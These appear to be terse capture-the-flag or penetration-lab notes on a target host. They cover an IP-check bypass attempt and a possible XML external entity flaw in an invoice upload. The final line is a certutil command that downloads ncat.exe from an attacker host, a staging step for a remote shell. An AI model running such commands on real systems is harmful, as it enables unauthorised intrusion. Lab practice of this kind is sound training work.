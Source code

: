 10.129.1.3


/management.php checks IP address? X-forwarded-for head not work

/invoices.php allows upload with XML

XML external entities?


```
certutil.exe -urlcache -split -f http://10.10.14.7/ncat.exe ncat.exe
```

